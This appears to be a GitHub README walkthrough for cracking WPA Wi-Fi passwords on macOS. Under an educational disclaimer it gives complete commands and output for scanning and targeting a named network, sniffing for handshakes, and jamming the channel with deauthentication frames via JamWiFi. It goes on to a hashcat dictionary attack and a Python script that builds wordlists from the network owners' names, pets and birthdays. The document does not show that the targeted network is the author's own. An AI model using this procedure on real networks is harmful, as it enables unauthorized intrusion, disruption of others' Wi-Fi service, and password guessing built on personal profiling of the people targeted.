



# MacOS WPA Crack

Crack weak WiFi passwords (WPA) on MacOS

### DISCLAIMER

> :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light:
>
> This write-up and the tools presented are intended to be used only for educational purposes, on systems which either you personally own (as in "have legal rights to and are entitled to use as you please") or are otherwised authorized for. Do **NOT** use any of the tools presented here against systems for which you are not authorized or you could face legal consequences as per the [CFAA](https://en.wikipedia.org/wiki/Computer_Fraud_and_Abuse_Act), [SCA](https://en.wikipedia.org/wiki/Stored_Communications_Act), [ECPA](https://en.wikipedia.org/wiki/Electronic_Communications_Privacy_Act), and any other applicable laws. Note that the legal consequences are **SEVERE** even for the most harmless and petty of unauthorized system intrusion cases.
>
> :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light: :rotating_light:

## Overview

There is plenty of Wi-Fi routers/base-stations with weak security out there. The goal of this walkthrough is to teach you the basics of exploiting these.

The premise of WAP password cracking is listening on a network channel for a base station, hoping to capture a client connecting 


#### Create a symlink to make the airport utility available in your binaries path

```
$ sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

#### Verify airport is available

```
$ which airport
/usr/local/bin/airport
```

```
$ airport -s
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                         SS WiFi                   -92  10,-1   Y  US WPA2(PSK,FT-PSK/AES/AES)
                     DONKO110816                   -89  6,-1    Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP)
```

```
$ sudo airport -s
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                         SS WiFi d2:32:e5:18:b0:c6 -92  10,-1   Y  US WPA2(PSK,FT-PSK/AES/AES)
                     DONKO110816 dc:9b:d6:22:44:54 -90  40,-1   Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP)
```

We'll be targetting the network "DONKO110816" for the rest of this tutorial.

#### Sniff an 802.11 Wi-fi channel

The goal of this is to listen on an 802.11 Wi-fi channel for a 4-way handshake. The airport utility saves sniffed/captured 802.11 frames in `.cap` format.

This is equivalent to `.pcap` files, which we can inspect in Wireshark if we wish to do so.

```
$ airport en0 sniff 40
Capturing 802.11 frames on en0.
^CSession saved to /tmp/airportSniff641Yr9.cap.
```

#### Convert capture file into hcx file

The `.cap`/`.pcap` file includes a lot of noise that we want to filter out.
Convert to `.hccapx`.

This can be done with the [cap2hashcat online tool](https://hashcat.net/cap2hashcat/), or by building the same tool locally from source:

```
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src
gcc -o cap2hccapx cap2hccapx.c
mv ./cap2hccapx /usr/local/bin/
```
 
Convert the file:

```
$ cap2hccapx capture.cap capture.hccapx
Networks detected: 3

[*] BSSID=dc:9b:d6:21:b8:44 ESSID=DONKO110816 (Length: 11)
[*] BSSID=dc:9b:d6:22:44:5c ESSID=DONKO110816 (Length: 11)
[*] BSSID=dc:9b:d6:22:44:54 ESSID=DONKO110816 (Length: 11)

Written 0 WPA Handshakes to: capture.hccapx
```

Note that there were 0 WPA Handshakes captured... we'll need to get fancier with our attack.

We can jam the Wi-fi channel with deauthentication messages that will force the clients to reconnect to the router/base-station.

We can achieve this by downloading the [JamWiFi app for MacOS](https://github.com/0x0XDev/JamWiFi).

```
$ wget https://github.com/0x0XDev/JamWiFi/releases/download/v1.3.2/JamWiFi.zip
[Output hidden for conciseness]

HTTP request sent, awaiting response... 200 OK
Length: 3841784 (3.7M) [application/octet-stream]
Saving to: ‘JamWiFi.zip’

JamWiFi.zip 100%[=============================>]   3.66M  3.58MB/s    in 1.0s

2021-11-25 13:51:08 (3.58 MB/s) - ‘JamWiFi.zip’ saved [3841784/3841784]
```

```
$ unzip JamWiFi.zip
Archive:  JamWiFi.zip
   creating: JamWiFi.app/
   creating: JamWiFi.app/Contents/
   creating: JamWiFi.app/Contents/MacOS/
   creating: JamWiFi.app/Contents/Resources/
   creating: JamWiFi.app/Contents/Frameworks/
  inflating: JamWiFi.app/Contents/Info.plist
  inflating: JamWiFi.app/Contents/PkgInfo
  inflating: JamWiFi.app/Contents/MacOS/JamWiFi
  inflating: JamWiFi.app/Contents/Resources/radio.icns
   creating: JamWiFi.app/Contents/Resources/Base.lproj/
  inflating: JamWiFi.app/Contents/Resources/JamWiFi-Info.plist
  inflating: JamWiFi.app/Contents/Frameworks/libswiftObjectiveC.dylib
  inflating: JamWiFi.app/Contents/Frameworks/libswiftCore.dylib
  inflating: JamWiFi.app/Contents/Frameworks/libswiftCoreGraphics.dylib
  inflating: JamWiFi.app/Contents/Frameworks/libswiftDispatch.dylib
  inflating: JamWiFi.app/Contents/Frameworks/libswiftCoreFoundation.dylib
  inflating: JamWiFi.app/Contents/Frameworks/libswiftDarwin.dylib
  inflating: JamWiFi.app/Contents/Frameworks/libswiftIOKit.dylib
  inflating: JamWiFi.app/Contents/Frameworks/libswiftFoundation.dylib
  inflating: JamWiFi.app/Contents/Resources/Base.lproj/MainMenu.nib
  inflating: JamWiFi.app/Contents/Resources/Base.lproj/Credits.rtf
```

```
$ open JamWiFi.app
```

You will be prompted for your password; the application runs as root. This is necessary to listen to the network using your machine's network hardware.



Click on "Scan".



Before you proceed, listen to the channel using `airport` again

```
$ airport en0 sniff 6
Capturing 802.11 frames on en0.
```

On the JamWiFi app, select the network you wish to attack (in our case "DONKO110816") and click "Monitor", and then click "Do it!" after you see there have been a few Deauths (deauthentication messages sent), click "Done".



At this point you can stop sniffing with airport.

```
^CSession saved to /tmp/airportSniffP7y2Vj.cap.
```

Convert the capture file to `.hccapx` again.

```
$ cap2hccapx /tmp/airportSniffP7y2Vj.cap donko.hccapx
Networks detected: 13

[Output hidden for conciseness]
[*] BSSID=dc:9b:d6:22:44:5c ESSID=DONKO110816 (Length: 11)
[Output hidden for conciseness]

Written 1 WPA Handshakes to: /Users/adriano/Desktop/donko.hccapx
```

This time it worked! We caught a handshake! Now its time to attack the keys we caught.


#### Run a Dictionary Attack against the hash with hashcat

> Download the [`rockyou.txt`](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist

```
$ hashcat -m 22000 /Users/adriano/Desktop/donko.hccapx /Users/adriano/Downloads/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 (Oct  1 2021 19:40:58)) - Platform #1 [Apple]
====================================================================
* Device #1: Intel(R) Core(TM) i5-1038NG7 CPU @ 2.00GHz, skipped
* Device #2: Intel(R) Iris(TM) Plus Graphics, 1472/1536 MB (384 MB allocatable), 64MCU

Minimum password length supported by kernel: 8
Maximum password length supported by kernel: 63

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 204 MB

Dictionary cache built:
* Filename..: /Users/mselaavi/adriano/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit =>
```

Theres a large chance the wordlist is exhausted without finding the password. This was the case with this particular run above.

```
Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: WPA-PBKDF2-PMKID+EAPOL
Hash.Target......: /Users/mselaavi/Desktop/donko.hccapx
Time.Started.....: Thu Nov 25 14:19:49 2021 (19 mins, 44 secs)
Time.Estimated...: Thu Nov 25 14:39:33 2021 (0 secs)
Guess.Base.......: File (/Users/adriano/Downloads/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:     8119 H/s (3.47ms) @ Accel:32 Loops:16 Thr:8 Vec:1
Recovered........: 0/1 (0.00%) Digests
Progress.........: 14344384/14344384 (100.00%)
Rejected.........: 4734913/14344384 (33.01%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#2....: $HEX[233168617a656c746f6e] -> $HEX[042a0337c2a156616d6f732103]

Started: Thu Nov 25 14:19:47 2021
Stopped: Thu Nov 25 14:39:34 2021
```

So is this it? Have we failed? ... not yet. We can construct our own wordlist based on everything we know about the base station -- then use that wordlist to attempt the step above again, hoping for a different outcome.

##### Building a wordlist

The following python script uses a file `base.txt` as the basis to generate a wordlist of all permutations of the words in the file.

```
import itertools

with open('base.txt') as fd:
    words = fd.readlines()

with open('wordlist.txt', 'a') as fd:
    for words_per_permutation in range(1, len(words)):
        for permutation in itertools.permutations(words, words_per_permutation):
            fd.write('{}\n'.format(''.join(permutation).replace('\n', '')))

```

Your `base.txt` file should contain any first names, last names, pet names, birthdays, memorable dates, car plates, house numbers, etc... that you can think of with respect to the owners of the Wi-Fi base station.

We will use the resulting `wordlist.txt` as the wordlist in our dictionary attack.
